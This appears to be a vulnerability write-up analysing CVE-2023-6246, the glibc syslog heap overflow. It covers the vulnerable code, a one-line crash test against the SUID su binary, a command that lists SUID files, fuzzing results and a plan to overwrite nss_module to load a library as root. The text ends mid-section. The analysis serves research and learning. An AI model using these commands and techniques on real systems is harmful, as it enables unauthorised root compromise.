





# CVE-2023-6246  analysis

## Context

This CVE exploits a heap-overflow in the `\_\_vsyslog\_internal` function of glibc. This function is called by  `syslog` and `vsyslog`. This CVE has a cvss3 severity of 7.8 .

It was introduced in glibc 2.37 with the following commit: https://sourceware.org/git?p=glibc.git;a=commit;h=52a5be0df411ef3ff45c10c7c308cb92993d15b1
It also affects glibc 2.36 since the commit was backported to solve CVE-2022-39046 (https://sourceware.org/bugzilla/show\_bug.cgi?id=29536).

With this vulnerability an attacker can gain LPE (Local Privilege Escalation). 

# Target functions

Before looking at the vulnerable code, let's see what the affected functions are meant to do.

`syslog` man page - `send messages to the system logger. Generates a log message, which will be distributed by syslogd(8).`
Where `syslogd` is a daemon that would read messages from `/dev/log` (from processes and applications) and would direct them to `/var/log/`.
A syslog message has a format described in [RFC5424](https://www.rfc-editor.org/rfc/rfc5424.html#section-6).

The `/var/log/syslog` is the file that contains the latest logs added.


Function definition of `syslog` and `vsyslog` from the manual:
```C
void syslog(int priority, const char *format, ...);
```
```C
void vsyslog(int priority, const char *format, va_list ap);
```

We can observe that there are two arguments for these functions:
* `priority` -  "is formed by ORing together a facility value and a level value". The *facility* argument specifies what type of log it is (LOG\_AUTH, LOG\_CRON) and the *level* represents the importance of the message.
* `format` - this is just a normal format string, it can't end in '\n'.

# Analysing the vulnerable code 

To understand where the vulnerability lies we will analyse the unsafe code from `syslog.c`.

From the source code we can see that `syslog`/`vsyslog` internally calls `__vsyslog_internal(pri, fmt, ap, 0)`:
```C
void
 __syslog (int pri, const char *fmt, ...)
 {
  va_list ap;
  
  va_start (ap, fmt);
  __vsyslog_internal (pri, fmt, ap, 0); <---
  va_end (ap);
}
void
 __vsyslog (int pri, const char *fmt, va_list ap)
{ 
  __vsyslog_internal (pri, fmt, ap, 0); <---
}
```

Let's check \_\_vsyslog\_internal:
```C
     //void syslog(int priority, const char *format, ...);
 void __vsyslog_internal (int pri, const char *fmt, va_list ap, unsigned int mode_flags)
 122 {
 123   /* Try to use a static buffer as an optimization.  */
 124   char bufs[1024];                                         <- bufs
 125   char *buf = NULL;
 126   size_t bufsize = 0;
 127   int msgoff;
 128   int saved_errno = errno;
 129 
 130 #define INTERNALLOG LOG_ERR|LOG_CONS|LOG_PERROR|LOG_PID
 131   /* Check for invalid bits. */
 132   if (pri & ~(LOG_PRIMASK | LOG_FACMASK))                                    <- check if arguments are valid
 133     {
 134       syslog (INTERNALLOG, "syslog: unknown facility/priority: %x", pri);
 135       pri &= LOG_PRIMASK | LOG_FACMASK;
 136     }
 137 
 138   /* Prepare for multiple users.  We have to take care: most syscalls we are
 139      using are cancellation points.  */
 140   struct cleanup_arg clarg = { NULL, NULL };
 141   __libc_cleanup_push (cancel_handler, &clarg);
 142   __libc_lock_lock (syslog_lock);
 143 
 144   /* Check priority against setlogmask values. */
 145   if ((LOG_MASK (LOG_PRI (pri)) & LogMask) == 0)
 146     goto out;
 147 
 148   /* Set default facility if none specified. */
 149   if ((pri & LOG_FACMASK) == 0)
 150     pri |= LogFacility;
 151 
 152   pid_t pid = LogStat & LOG_PID ? __getpid () : 0;
 153 
 154   /* "%b %e %H:%M:%S "  */
 155   char timestamp[sizeof "MMM DD hh:mm:ss "];
 156   __time64_t now = time64_now ();                              <- current time
 157   struct tm now_tm;
 158   struct tm *now_tmp = __localtime64_r (&now, &now_tm);        <- now_tm: broken down localtime and now_tmp a pointer to it
 159   bool has_ts = now_tmp != NULL;                               <- has\_ts is true if local time is 'fetched' correctly
 160 
 161   /* In the unlikely case of localtime_r failure (tm_year out of int range)
 162      skip the hostname so the message is handled as valid PRI but without
 163      TIMESTAMP or invalid TIMESTAMP (which should force the relay to add the
 164      timestamp itself).  */
 165   if (has_ts)
 166     __strftime_l (timestamp, sizeof timestamp, "%h %e %T ", now_tmp,
 167                   _nl_C_locobj_ptr);
 168 
 169 #define SYSLOG_HEADER(__pri, __timestamp, __msgoff, pid) \
 170   "<%d>%s %n%s%s%.0d%s: ",                               \
 171   __pri, __timestamp, __msgoff,                          \
 172   LogTag == NULL ? __progname : LogTag,                  \
 173   "[" + (pid == 0), pid, "]" + (pid == 0)
/* 
  #define SYSLOG\_HEADER(__pri, __timestamp, __msgoff, pid) "<%d>%s %n%s%s%.0d%s: ", __pri, __timestamp, __msgoff, LogTag == NULL ? __progname : LogTag, "[" + (pid == 0), pid, "]" + (pid == 0)
  important to note here, if LogTag is NULL use `__progname`  (L52 -crt0 C runtime zero, code that runs before main)
 */
 174 
 175 #define SYSLOG_HEADER_WITHOUT_TS(__pri, __msgoff)        \
 176   "<%d>: %n", __pri, __msgoff
 177 
 178   int l;                                                       <- l is the header length
 179   if (has_ts)
 180     l = __snprintf (bufs, sizeof bufs,
 181                     SYSLOG_HEADER (pri, timestamp, &msgoff, pid));
 182   else
 183     l = __snprintf (bufs, sizeof bufs,
 184                     SYSLOG_HEADER_WITHOUT_TS (pri, &msgoff));
 185   if (0 <= l && l < sizeof bufs)                                <- sizeof bufs is 1024, l how many chars there were written at (L180/L183) in the SYSLOG HEADER
 186     {
 187       va_list apc;
 188       va_copy (apc, ap);
 189 
 190       /* Restore errno for %m format.  */
 191       __set_errno (saved_errno);
 192 
 193       int vl = __vsnprintf_internal (bufs + l, sizeof bufs - l, fmt, apc,  <- vl represents the formated log data
 194                                      mode_flags);
 195       if (0 <= vl && vl < sizeof bufs - l)
 196         buf = bufs;                                           <- buf gets initialised 
 197       bufsize = l + vl;                                       <- bufsize gets value = l (written chars at L180/L183) + vl (L193), this represents the total size of the log message
 198 
 199       va_end (apc);
 200     }
 201 
 202   if (buf == NULL)                                         <- meaning it didn't enter the if from L185 -> L196
 203     {
 204       buf = malloc ((bufsize + 1) * sizeof (char));        <- allocate the size + 1 (if bufize is 0 it will allocate the smallest chunk size from the heap available which is 0x20 on 64-bit systems)
 205       if (buf != NULL)
 206         {
 207           /* Tell the cancellation handler to free this buffer.  */
 208           clarg.buf = buf;
 209 
 210           if (has_ts)
 211             __snprintf (buf, l + 1,                                    <- copy into buf l+1 bytes from the SYSLOG_HEADER (overflow)
 212                         SYSLOG_HEADER (pri, timestamp, &msgoff, pid));
 213           else
 214             __snprintf (buf, l + 1,
 215                         SYSLOG_HEADER_WITHOUT_TS (pri, &msgoff));
 216 
 217           va_list apc;
 218           va_copy (apc, ap);
 219           __vsnprintf_internal (buf + l, bufsize - l + 1, fmt, apc,   <- copy log data into buf (overflow)
 220                                 mode_flags);
 221           va_end (apc);
 222         }
 223       else
 224         {
 225           /* Nothing much to do but emit an error message.  */
 226           bufsize = __snprintf (bufs, sizeof bufs,
 227                                 "out of memory[%d]", __getpid ());
 228           buf = bufs;
 229         }
 230     }
 282 }
 ...
```

There are two overflows in this code, one at L211-212 and one at L219-220. 
To trigger the overflow we will need to enter the if branch on L202 (`buf == NULL`) and at the same time we also want to have a large header size (`int l` at L178). 
Based on the code, it looks like a syslog message is built from a `header + content` format. The key variables involved in this are:

- char bufs[1024] - temporary buffer for the syslog message
- char *buf  - buffer that has the final log message
- l - length of the syslog header
- vl - length of the formatted message body
- bufsize - total length of the message

The vulnerability of the code is determined by the fact that **`l` can be larger than `sizeof bufs`**. This will result in the fact that the branch from L202 is taken and that `bufsize` will be zero. 
Since `bufsize` is zero, on L204 the smallest possible chunk will be returned and `buf` will hold a pointer to it.
Then we have the two vulnerable snippet codes:
```
 211             __snprintf (buf, l + 1,                                    
 212                         SYSLOG_HEADER (pri, timestamp, &msgoff, pid));
 ...
 219           __vsnprintf_internal (buf + l, bufsize - l + 1, fmt, apc,   
 220                                 mode_flags);
```
These will cause an overflow since `buf` points to a small chunk on the heap and `l+1` and `bufsize-l+1` are values larger than the allocated chunk.

### Why the Header Size (`l`) Can Be Larger Than the Buffer Size

Let's examine why the header size (`l`) can exceed the size of the buffer. At L180, `l` is set using the return value of `__snprintf`:

```c
l = __snprintf(bufs, sizeof bufs, SYSLOG_HEADER(...));

According to the man page, __snprintf returns:
*"the number of characters (excluding the terminating null byte) that would have been written to the final string if enough space had been available."*

This behavior means that even if only up to `sizeof bufs` bytes are actually written into the `bufs` buffer, the return value l can still be larger than `sizeof bufs` if the formatted string produced by SYSLOG_HEADER(...) exceeds the buffer's capacity.

As seen at line 172, when `LogTag` is `NULL`, the program name is used as a fallback in the syslog header.

#### LogTag Analysis

We saw that `LogTag` should be null, by analysing `syslog.c` we can see how it's used.

```C
47 static bool connected;                  /* have done connect */
48 static int LogStat;                     /* status bits, set by openlog() */
49 static const char *LogTag;              /* string to tag the entry with */ <- first appearance
50 static int LogFacility = LOG_USER;      /* default facility code */
...
 169 #define SYSLOG_HEADER(__pri, __timestamp, __msgoff, pid) \
 170   "<%d>%s %n%s%s%.0d%s: ",                               \
 171   __pri, __timestamp, __msgoff,                          \
 172   LogTag == NULL ? __progname : LogTag,                  \ <- second appearance (from code above)
 173   "[" + (pid == 0), pid, "]" + (pid == 0)
...
 291 static void
 292 openlog_internal (const char *ident, int logstat, int logfac)
 293 {
 294   if (ident != NULL)
 295     LogTag = ident;                                        <- third appearance
 296   LogStat = logstat;
 297   if ((logfac & ~LOG_FACMASK) == 0)
 298     LogFacility = logfac;
 299 
 ...
 360 void
 361 closelog (void)
 362 {
 363   /* Protect against multiple users and cancellation.  */
 364   __libc_cleanup_push (cancel_handler, NULL);
 365   __libc_lock_lock (syslog_lock);
 366 
 367   closelog_internal ();
 368   LogTag = NULL;                                   <- fourth appearance
 369   LogType = SOCK_DGRAM; /* this is the default */
 370 
 371   /* Free the lock.  */
 372   __libc_cleanup_pop (1);
 373 }
```

From the code above it looks that `LogTag` is initialised with an ident only in `openlog\_internal` which is called by `openlog`. The definition of openlog from the manpage is the following:
*"openlog() opens a connection to the system logger for a program. The string pointed to by ident is prepended to every message, and is typically set to the program name. If ident is NULL, the program name is used. (POSIX.1-2008 does not specify the behavior when ident is NULL.)"*
So to have a null value in `LogTag` we need to:

a) not call `openlog()`.

b) don't specify an ident.


### Exploitation

This will be done on a machine that has Fedora 38 installed which has the vulnerable glibc version.
To test if a machine is vulnerable we can run the following command:
```
(exec -a "`printf '%0128000x' 1`" /usr/bin/su < /dev/null)
```
The `-a` option in exec states the following: *" -a name	pass NAME as the zeroth argument to COMMAND "*, this means that we basically change the program name with 128000 bytes which will cause a buffer overflow and cause a segmentation fault.

#### Finding a target

To exploit this overflow we want to find a target that has the SUID bit set on a binary. The SUID bit allows a user to run a binary with the privileges of the owner, so essentially we want to target a binary that has `root` as the owner.
We can list all the binaries with the owner that have the SUID bit set with the following command:
```
find / -perm -u=s -type f -exec ls -l {} \; 2>/dev/null
```

One of the most common binaries exploited for Privilege Escalation is the `su` binary. To succesfully exploit this vulnerability we need a binary that:
- uses `syslog`.
- doesn't use `openlog` or an ident.
- has the SUID bit set.

We want to check if the `su` binary respects these conditions.

With an `ltrace` we can see that the `su` binary will call `__syslog_chk` which by looking at the [code](https://elixir.bootlin.com/glibc/glibc-2.37/source/misc/syslog.c#L104) calls `__vsyslog_internal`.
From the `ltrace` we can see that this happens after `openlog` which isn't what we want since it won't use our program name in this case.

Ltrace:
```
...
pam_authenticate(0x559ce65eac60, 0, 8, 0x6c6562656e6970 <unfinished ...>
misc_conv(1, 0x7ffc6c59fdc0, 0x7ffc6c59fdc8, 0x7ffc6c5a0280Password: ) = 0
<... pam_authenticate resumed> )                 = 7
openlog("su", 1, 32)                             = <void>
__syslog_chk(5, 2, 0x559ce55e98ef, 0x559ce55e95bd) = 0
closelog()     
...
```

Since ltrace doesn't show all the calls that are made, one simple way to see if `vsyslog` is called before `openlog` is to run the `su` binary and set a breakpoint on `__vsyslog_internal` and `openlog`.

Output of debugger:
```bash
Starting program: /usr/bin/su 
[Thread debugging using libthread_db enabled]                                                                                                                                                                                                 
Using host libthread_db library "/lib64/libthread_db.so.1".
[Detaching after fork from child process 37042]                                                                                                                                                                                               
Password: 
[Detaching after fork from child process 37043]

Breakpoint 1, __vsyslog_internal (pri=85, fmt=0x7f7881da1155 "%s %s", ap=ap@entry=0x7fff86009500, mode_flags=mode_flags@entry=2) at syslog.c:122
122	{
(gdb) p LogTag
$2 = 0x0
(gdb) info break
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x00007f7881cb8370 in __vsyslog_internal at syslog.c:122
	breakpoint already hit 1 time
2       breakpoint     keep y   0x00007f7881cb8b50 in openlog at syslog.c:339
(gdb) bt
#0  __vsyslog_internal (pri=85, fmt=0x7f7881da1155 "%s %s", ap=ap@entry=0x7fff86009500, mode_flags=mode_flags@entry=2) at syslog.c:122
#1  0x00007f7881cb8b13 in __syslog_chk (pri=pri@entry=85, flag=flag@entry=2, fmt=fmt@entry=0x7f7881da1155 "%s %s") at syslog.c:109
#2  0x00007f7881d98b6c in syslog (__fmt=0x7f7881da1155 "%s %s", __pri=85) at /usr/include/bits/syslog.h:45
#3  pam_vsyslog (pamh=0x55c48d670be0, priority=5, fmt=0x7f7881a37920 "authentication failure; logname=%s uid=%d euid=%d tty=%s ruser=%s rhost=%s %s%s", args=args@entry=0x7fff86009650)
    at /usr/src/debug/pam-1.5.2-16.fc38.x86_64/libpam/pam_syslog.c:99
#4  0x00007f7881d98d23 in pam_syslog (pamh=pamh@entry=0x55c48d670be0, priority=priority@entry=5, fmt=fmt@entry=0x7f7881a37920 "authentication failure; logname=%s uid=%d euid=%d tty=%s ruser=%s rhost=%s %s%s")
    at /usr/src/debug/pam-1.5.2-16.fc38.x86_64/libpam/pam_syslog.c:113
#5  0x00007f7881a32a75 in _unix_verify_password (pamh=pamh@entry=0x55c48d670be0, name=<optimized out>, p=<optimized out>, ctrl=ctrl@entry=1073741824) at /usr/src/debug/pam-1.5.2-16.fc38.x86_64/modules/pam_unix/support.c:782
#6  0x00007f7881a33feb in pam_sm_authenticate (pamh=0x55c48d670be0, flags=<optimized out>, argc=<optimized out>, argv=<optimized out>) at /usr/src/debug/pam-1.5.2-16.fc38.x86_64/modules/pam_unix/pam_unix_auth.c:173
#7  0x00007f7881d9d783 in _pam_dispatch_aux (use_cached_chain=<optimized out>, resumed=<optimized out>, h=0x55c48d67f090, flags=0, pamh=0x55c48d67f090) at /usr/src/debug/pam-1.5.2-16.fc38.x86_64/libpam/pam_dispatch.c:110
#8  _pam_dispatch (pamh=pamh@entry=0x55c48d670be0, flags=flags@entry=0, choice=choice@entry=1) at /usr/src/debug/pam-1.5.2-16.fc38.x86_64/libpam/pam_dispatch.c:426
#9  0x00007f7881d9dfc8 in pam_authenticate (pamh=0x55c48d670be0, flags=flags@entry=0) at /usr/src/debug/pam-1.5.2-16.fc38.x86_64/libpam/pam_auth.c:34
#10 0x000055c48c8f732c in supam_authenticate (su=0x7fff86009e30) at login-utils/su-common.c:414
#11 su_main (argc=1, argv=0x7fff8600a1e8, mode=0) at login-utils/su-common.c:1214
#12 0x000055c48c8f1f4d in main (argc=<optimized out>, argv=<optimized out>) at login-utils/su.c:6
```
This confirms that we first hit the `__vsyslog_internal` from the `pam_authenticate` function which can also be seen in the ltrace.

We could also check the source code for `su` (after downloading it) in `./login-utils/su-common.c`(from /rpmbuild/SOURCES/util-linux-2.38.1) in the `su_main` function.

With this information we know that the `su` binary is a good target for our exploit.

### Technique

We are very limited while running `su` without arguments because we don't have a way to leak anything (for defeating ASLR) or to allocate/free chunks (for heap grooming).

Let's just first check how the data looks on the heap from `buf` which is the vulnerable buffer from `syslog`.

```
0x55aafe227cd0:	"<85>May 25 00:59:51 ", 'A' <repeats 180 times>...
0x55aafe227d98:	'A' <repeats 200 times>...
0x55aafe227e60:	'A' <repeats 200 times>...
0x55aafe227f28:	'A' <repeats 200 times>...
0x55aafe227ff0:	'A' <repeats 200 times>...
0x55aafe2280b8:	'A' <repeats 20 times>, ": pam_unix(su-l:auth): authentication failure; logname= uid=1000 euid=1000 tty=/dev/pts/2 ruser=test rhost=  user=root"
```

As expected, there is the formatted data inserted before and after the program name.
Since I'm not sure what we can overflow, I just started to play around with some random input and hope for a segmentation fault.

An interesting scenario I found was with the name length '1040' with only 'A''s as the program name where we end up overwriting some structures used in the program.


While this looks promising I'm not sure how exploitable it is so I decided to explore the program further.

By looking in the `su_main` binary (source code of `su`), we find out that there is an option `-w` which allows us to give a whitelist option, this list will be placed on the heap, pretty interesting.
The `-w` option keeps the specified environment variables when starting a new login session.

For example running it like this:
```
/usr/bin/su -w CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```
Will place the "C" sequence on the stack, as well as the heap. Interesting.
Current heap layout:
```
x560bf0548420:	0x0000000000000000	0x0000000000000211
0x560bf0548430:	0x0000000560bf0548	0xd3eeeceb92104ea0
0x560bf0548440:	0x4343434343434343	0x4343434343434343
0x560bf0548450:	0x4343434343434343	0x4343434343434343
0x560bf0548460:	0x4343434343434343	0x4343434343434343
0x560bf0548470:	0x4343434343434343	0x4343434343434343
0x560bf0548480:	0x4343434343434343	0x4343434343434343
...
```
This looks like a freed chunk, we can also see that it's most likely in the `tcache` bin since we have the `tcache` key there.
If we try with a larger value the name of the terminal is also stored on the heap:
```
> vis 33
0x0000000000001011	................
0x555a5f23c430	0x7374702f7665642f	0x555555555500302f	/dev/pts/0.UUUUU
0x555a5f23c440	0x5555555555555555	0x5555555555555555	UUUUUUUUUUUUUUUU
```

From multiple experiments it's a bit strange to figure out exactly how this works. The idea would be that maybe we could manipulate the "-w" parameter to do some heap grooming so that we could maybe place/move some objects around the heap and overflow them with our vulnerability.

Since it can be pretty difficult to understand how control for the heap grooming part can be achieved, I decided to also write a fuzzer like the authors of the CVE.

### Fuzzer

The fuzzer I wrote is pretty simple, it just runs the `su` binary with the following parameters:
* program_name: 1000 until 35000 "A" chars
* for each program_name try the `-w` option with 5 elements in the list. 
* to introduce some variability, there's a 50% chance of including a randomly generated environment variable name (up to 3,000 characters long) in the environment list.

Each iteration saves the core dump and the payload, to see the implementation check /utils/fuzzerV1.py.

### Results

The fuzzer produced some interesting outputs which have potential for exploitation.

There are quite a few of heap metadata errors, but since we're pretty limited in what we can actually control, it's hard to say how exploitable they are. Here are some examples of the errors I got:
* corrupted double-linked list
* malloc(): corrupted top size
* munmap_chunk(): invalid pointer
* malloc_consolidate(): invalid chunk size


One really interesting crash that I got is a path where we end up controlling the RAX register which ends up being called.


This is really exciting, but since we mainly control the program name, our ability to manipulate RAX is pretty limited. Program names can't contain null bytes or "/", and without the ability to write null bytes, we can't write full addresses. One idea might be to partially overwrite the pointer, maybe through bruteforce or a similar approach, but the problem is that we don't have control over the end of the vsyslog buffer (" pam_unix(su-l:auth): authentication failure; logname= uid=1000 euid=1000 tty=/dev/pts/2 ruser=test rhost=  user=root"). So this path seems like a dead end for now.

While experimenting with the input that triggers this execution path, I noticed that changing environment variables also affects the heap layout. For example, if I added an environment variable, I would hit the `strcmp` error mentioned earlier instead of this one where we can control RAX. This shows that environment variables can also influence the heap layout and the program's state.

Because of this, I decided to tune my fuzzer to take environment variables into account too.

After running my new fuzzer (utils/fuzzerV2.py), I saw a lot more errors, including some really interesting ones. You can check the `outputs` directory to see all of them. The most notable cases are the ones that also appear in the official CVE report, which involve corruption of the `nss` structure.

We can check the context where the program crashed.

---
Crash in `__nss_lookup` (core_9673_2_core.su.55486):




---

Crash in `__nss_module_get_function` (core_9671_0_core.su.55474)



----

Crash with shared library list corruption:



---
Basically from this point the authors of the CVE mention that this is a really similar case to [CVE-2021-3156](https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

The main idea of this is to overwrite the contents of the `nss_module` structure (definition in `nss_module.h`, used in `nss_module.c` in `module_load`) which exists on the heap.

This module structure has a `name` field which can be used in our exploit to inject a shared library by overwriting the `name` field.

In `nss_module.c`, the `module_load` function contains an interesting [code snippet](https://elixir.bootlin.com/glibc/glibc-2.37/source/nss/nss_module.c#L177) that could allow an attacker to inject and load a shared library.

```C
177 void *handle;
    {
        char *shlib_name;
180     if (__asprintf (&shlib_name, "libnss_%s.so%s",
                        module->name, __nss_shlib_revision) < 0)
        /* This is definitely a temporary failure.  Do not update
            module->state.  This will trigger another attempt at the next
            call.  */
        return false;

187     handle = __libc_dlopen (shlib_name);
        free (shlib_name);
    }
```

Starting at line 180, we can see that if `module->name` contains slashes, it's possible to manipulate the shared library path. For example, if `module->name` is set to `"x/y/z"`, the resulting library name would be `"libnss_x/y/z.so.<version>"`.

From line 187, we observe that the shared library is loaded from the current working directory if the name does **not** start with a slash. If the name contained no slashes at all, the loader would search in the standard library paths (like `/lib`), where write permissions are typically restricted.


If a user would inject a controlled shared library it would run as root since the `su` binary has the SUID bit set.
The interesting part is that `__nss_module_get_function` also uses modules, so this is a very promising target.
The issue here is that we can overflow the `name` only with the `progname` value which can't contain slashes or null bytes.

However, there is a workaround: the uncontrolled part of the `progname` from the end; for example,  
`pam_unix(su-l:auth): authentication failure; logname= uid=1000 euid=1000 tty=/dev/pts/2 ruser=test rhost=  user=root` 
does include slashes in the terminal name (`/dev/pts/2`) where it is executed. 
This can be used to make it inject our "custom" library and run it with root privileges.


So now, all we need is a heap layout like the one shown in the following figure, where we can overwrite the module contents on the heap without overwriting other structures that might cause the program to crash.



So technically if we overwrite the `module->name` value with something like:
`AAAAApam_unix(su-l:auth): authentication failure; logname= uid=1000 euid=1000 tty=/dev/pts/2 ruser=test rhost=  user=root`
which becomes:
`libnss_AAAAApam_unix(su-l:auth): authentication failure; logname= uid=1000 euid=1000 tty=/dev/pts/2 ruser=test rhost=  user=root`

And if we have in our current directory the following structure:

```
/
